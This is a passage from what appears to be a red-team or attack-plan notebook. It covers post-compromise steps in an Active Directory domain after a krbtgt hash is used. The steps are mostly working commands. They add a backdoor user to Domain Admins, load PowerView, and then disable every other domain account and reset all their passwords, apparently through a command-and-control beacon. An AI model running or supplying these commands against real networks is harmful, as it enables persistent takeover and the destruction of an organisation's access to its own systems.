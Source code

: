 Fill in the information. Clicking the `...` Should allow you to pick the saved krbtgt hash.

![[attachments/Plan_image_23_20231011013207.png]]

>[!info] User Name
>You can make any username that you want.


# Domain Persistence

Create an account as Domain Administrator. I used nathan.roberts

```
shell net user <username> <password> /add /domain
shell net group "Domain Admins" <username> /add /domain
```
# Effect - Disable the Domain

Next, we will go through and disable all the other accounts.

### Import Powerview again

use powershell import and pick /home/kali/tools/powershell/Powersploit/Recon/PowerView.ps1
```
powershell-import
```


Next disable all accounts
```powershell
powershell get-domainuser |?{$_.samaccountname -notlike "krbtgt" -and $_.samaccountname -notlike "nathan.roberts"} | foreach { net user $_.samaccountname /domain /active:no }
```

Might as well change their passwords.

```powershell
powershell get-domainuser |?{$_.samaccountname -notlike "krbtgt" -and $_.samaccountname -notlike "nathan.roberts"} | foreach { net user $_.samaccountname EasyPassword! /domain }
```


Do it twice to make sure it takes!

```
powershell get-domainuser |?{$_.samaccountname -notlike "krbtgt" -and $_.samaccountname -notlike "nathan.roberts"} | foreach { net user $_.samaccountname H4rdP4ssword! /domain }
```

